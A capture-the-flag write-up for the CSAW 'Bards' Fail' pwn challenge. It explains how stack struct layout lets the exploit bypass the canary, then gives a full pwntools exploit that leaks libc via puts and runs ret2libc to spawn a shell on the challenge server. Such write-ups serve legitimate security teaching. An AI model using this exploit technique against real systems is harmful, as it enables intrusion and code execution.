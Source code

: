 # The Bards' Fail

**tl;dr**
+ Carefully arranging structs on stack so as to overwrite saved rip , without corrupting the stack canary.
+ Leak libc with puts and execute a ret2libc to get shell 

<!--more-->
**Challenge Points:** 150
**Solves:** 97
## Challenge description

***Pwn your way to glory! You do not need fluency in olde English to solve it, it is just for fun***

we're given the challenge binary along with the libc 

first off , lets take a look at the mitigations enabled 
```console
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

## Functionality

This is what the challenge binary looked like 
```console
*** Welcome to the Bards' Fail! ***

Ten bards meet in a tavern.
They form a band.
You wonder if those weapons are real, or just props...

Bard #1, choose thy alignment (g = good, e = evil):
g	
Choose thy weapon:
1) +5 Holy avenger longsword
2) +4 Crossbow of deadly accuracy
1
Enter thy name:
testname

Bard #2, choose thy alignment (g = good, e = evil):
```
It first asks us to initialize 10 Bards with the option of choosing their alignment (good or evil).
We control the weapon and name of each bard , which are then stored on the stack .

each Bard is stored in a sort of structure on the stack ... looking into it further , we see that the good and evil structs are not quite the same 

```asm
'good' allocation -> 48 bytes
0240| 0x7ffdeef25150 --> 0xf0014006c 
0248| 0x7ffdeef25158 ("AAAAAAAA")  <-input 
0256| 0x7ffdeef25160 --> 0x0 
0264| 0x7ffdeef25168 --> 0x0 
0272| 0x7ffdeef25170 --> 0x0 
0280| 0x7ffdeef25178 --> 0x4032000000000000 ('')


'evil' allocation -> 56 bytes
0288| 0x7ffdeef25180 --> 0x63 ('c')
0296| 0x7ffdeef25188 --> 0x4032000000000000 ('')
0304| 0x7ffdeef25190 --> 0x424200140000000f 
0312| 0x7ffdeef25198 --> 0x424242424242 ('BBBBBB') <- input
0320| 0x7ffdeef251a0 --> 0x0 
0328| 0x7ffdeef251a8 --> 0x0 
0336| 0x7ffdeef251b0 --> 0x0 

```

## Exploitation
since evil allocates more bytes I used them to overflow the stack but was greeted with this message ...
```bash
AAAAAAAAAAAAAAAAAAAA is arrested.
*** stack smashing detected ***:
```
we can see our canary is at the offset 488 from the start of our input and since we give 56*10 bytes we end up corrupting it. The solution is to get our canary to overlap with our input string (instead of the constant data fields of the struct) so that we can choose to not overwrite it . Placing a "good" block at the start ends up doing that for us 

```asm
second last 'evil' block 
0680| 0x7ffcb4bcd168 --> 0x63 ('c')
0688| 0x7ffcb4bcd170 --> 0x4032000000000000 ('')
0696| 0x7ffcb4bcd178 --> 0x414100140000000f 
0704| 0x7ffcb4bcd180 ('A' <repeats 22 times>)
0712| 0x7ffcb4bcd188 ('A' <repeats 14 times>)
0720| 0x7ffcb4bcd190 --> 0x414141414141 ('AAAAAA')
0728| 0x7ffcb4bcd198 --> 0x69ac49fe9683bf00      <- canary
last 'evil' block 
0736| 0x7ffcb4bcd1a0 --> 0x7ffcb4bcd163 --> 0x630000000000 ('')
0744| 0x7ffcb4bcd1a8 --> 0x4032000000000000 ('') <- corrupted saved rip  
0752| 0x7ffcb4bcd1b0 --> 0x414100140000000f 
0760| 0x7ffcb4bcd1b8 --> 0x141414141 

```
okay.. so the canary's safe but the data from the last evil struct overwrites the saved rip , lucky for us the 'good' allocation has its input starting from ```param_1 + 8``` which is exactly where the saved rip will be . All we do is make a 'good' allocation at the end instead and give in our payload to take control of rip.

```bash
Stopped reason: SIGSEGV
0x0000414141414141 in ?? ()
```
perfect ! now all we need is a libc leak and a simple ret2libc will do the rest  

## Exploit Code

```py
from pwn import *
import sys
import os

remote_ip,port = 'pwn.chal.csaw.io','5019'
binary = 'bard'
brkpts = '''
'''
if sys.argv[1] == 'remote' :
    io = remote(remote_ip,port)

else:
    io = process(binary,env={'LD_PRELOAD':'./libc-2.27.so'})
    
re = lambda a: io.recv(a)
ru = lambda a: io.recvuntil(a)
rl = lambda  : io.recvline()
s  = lambda a: io.send(a)
sl = lambda a: io.sendline(a)
sla= lambda a,b: io.sendlineafter(a,b)
sa = lambda a,b: io.sendafter(a,b)

def good(weapon,name):
  sla(":\n",'g')
	sla("cy\n",str(weapon))
	sa("name:\n",name)

def evil(weapon,name):
	sla(":\n",'e')
	sla("ent\n",str(weapon))
	sa("name:\n",name)

def sheriff():
	sla("do?\n",'e')

def zombie(inp):
	sla("do?\n",inp)

def trigger(payload):
  for i in range(1):
		good(1,b"A"*8)
  for i in range(8):
		evil(1,b"B"*8)
  
  good(1,payload)
  gdb.attach(io,brkpts)
	
  for i in range(1):
		zombie('r')
  
  for i in range(8):
		sheriff()
	
  for i in range(1):
		zombie('r')	

#gadgets
puts = 0x4006d0
pop_rdi = 0x401143
main = 0x40107b
ret = 0x4006ae

if __name__== "__main__":	
	#good -> 48 bytes
	#bad  -> 56 bytes
	payload = p64(pop_rdi)
	payload += p64(0x602020)
	payload += p64(puts)
	payload += p64(main)
	trigger(payload)

	ru("away.")
	rl()
	leak = re(6)
	leak = u64(leak+b'\x00\x00')-0x80a30
	system = leak + 0x4f4e0
	binsh = leak +0x1b40fa
	
	log.info("base {} ".format(hex(leak)))
	log.info("sys {}".format(hex(system)))
	log.info("/bin/sh {}".format(hex(binsh)))

	payload = p64(ret)
	payload += p64(pop_rdi)
	payload += p64(binsh)
	payload += p64(system)
	trigger(payload)

	io.interactive()
```
The idea to get leaks was to call ```puts@plt``` using a GOT address as the argument ,Then call main again;to then which we give the payload to finally execute a ret2libc


```console
pwn-solo@m4chin3:~/ctf/csaw/bard$ python3 exploit.py remote
[+] Opening connection to pwn.chal.csaw.io on port 5019: Done
[*] base 0x7f9f7fe3a000 
[*] sys 0x7f9f7fe894e0
[*] /bin/sh 0x7f9f7ffee0fa
[*] Switching to interactive mode
Options:
(b)ribe
(f)latter
(r)un
$ ls
bard
flag.txt
$ cat flag.txt
flag{why_4r3_th3y_4ll_such_c0w4rds??}
```
pretty cool :)
